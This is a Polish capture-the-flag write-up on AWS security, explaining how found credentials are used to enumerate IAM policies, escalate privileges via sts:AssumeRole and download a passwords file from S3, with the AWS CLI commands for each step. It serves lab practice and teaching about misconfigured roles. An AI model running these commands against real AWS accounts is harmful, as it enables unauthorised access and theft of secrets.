



# 🎄 Dzień 23 - Dzien 23 - AWS Security - S3cret Santa

## 📝 Opis zadania
*Dwudziesty trzeci dzień wyzwania skupiał się na bezpieczeństwie chmury Amazon Web Services (AWS) oraz mechanizmach zarządzania tożsamością i dostępem (IAM). Zadanie polegało na wykorzystaniu znalezionych, podstawowych poświadczeń użytkownika w celu przeprowadzenia rekonesansu, wykrycia ścieżki eskalacji uprawnień (Privilege Escalation) poprzez mechanizm AssumeRole, a finalnie na uzyskaniu dostępu do chronionych zasobów w usłudze S3 i eksfiltracji wrażliwych danych.*

## 🔍 Kroki do celu
1. **Rekonesans i Enumeracja Uprawnień**: 
Początek działań polegał na sprawdzeniu tożsamości posiadanych kluczy (get-caller-identity) oraz weryfikacji przypisanych do nich polityk bezpieczeństwa. Analiza polityki uytkownika SirCarrotbanePolicy ujawniła, że użytkownik posiada uprawnienie sts:AssumeRole względem konkretnej roli o nazwie bucketmaster.
```
Bash
# Sprawdzenie tożsamości
aws sts get-caller-identity

# Enumeracja polityk użytkownika
aws iam list-user-policies --user-name [nazwa_użytkownika]
aws iam list-attached-user-policies --user-name [nazwa_użytkownika]
aws iam list-groups-for-user --user-name [nazwa_użytkownika]
aws iam get-user-policy --policy-name [nazwa_polityki] --user-name [nazwa_użytkownika]
```
2. **Eskalacja Uprawnień (Assume Role)**: 
Wykorzystując zidentyfikowaną lukę w konfiguracji, użyto komendy assume-role, aby "wcielić się" w rolę bucketmaster. Operacja ta zwróciła zestaw tymczasowych poświadczeń: AccessKeyId, SecretAccessKey oraz SessionToken. Następnie wyeksportowano te wartości do zmiennych środowiskowych, co pozwoliło na wykonywanie poleceń w kontekście nowej, uprzywilejowanej roli.
```
Bash
# Przejęcie roli bucketmaster
aws sts assume-role --role-arn arn:aws:iam::[ID]:role/bucketmaster --role-session-name session1

# Eksport tymczasowych poświadczeń
export AWS_ACCESS_KEY_ID="[Nowy_Access_Key]"
export AWS_SECRET_ACCESS_KEY="[Nowy_Secret_Key]"
export AWS_SESSION_TOKEN="[Nowy_Session_Token]"
```
3. **Infiltracja S3 i Eksfiltracja Danych**:
Jako bucketmaster, uzyskano dostęp do wylistowania zawartości bucketów S3 (wcześniej niedostępnych). Wewnątrz jednego z nich odnaleziono plik cloud_passwords.txt. Ostatnim krokiem było pobranie pliku na lokalną maszynę i odczytanie ukrytej flagi.
```
Bash
# Listing bucketów
aws s3api list-buckets

# Pobranie pliku z hasłami
aws s3api get-object --bucket [nazwa_bucketu] --key [nazwa_pliku_w_s3].txt [docelowa_nazwa_pliku].txt
```

> [!TIP]
> Mechanizm AssumeRole jest kluczowy w AWS do delegowania uprawnień. Jednak nadmierne uprawnienia do sts:AssumeRole bez warunków (Conditions) mogą prowadzić do łatwej eskalacji uprawnień (Privilege Escalation), jak pokazano w tym zadaniu.

## 📸 Dokumentacja wizualna

*Analiza pliku JSON polityki ujawniająca możliwość przejęcia roli bucketmaster.*

*Wynik polecenia assume-role zwracający tymczasowe poświadczenia i SessionToken.

*Pobranie i odczytanie zawartości pliku cloud_passwords.txt.*

## 🛠️ Użyte narzędzia
* AWS CLI – interfejs wiersza poleceń do zarządzania usługami AWS.
* AWS STS (Security Token Service) – usługa do generowania tymczasowych poświadczeń (AssumeRole).
* AWS IAM – do enumeracji użytkowników, ról i polityk.
* AWS S3 – usługa przechowywania obiektów (cel ataku).
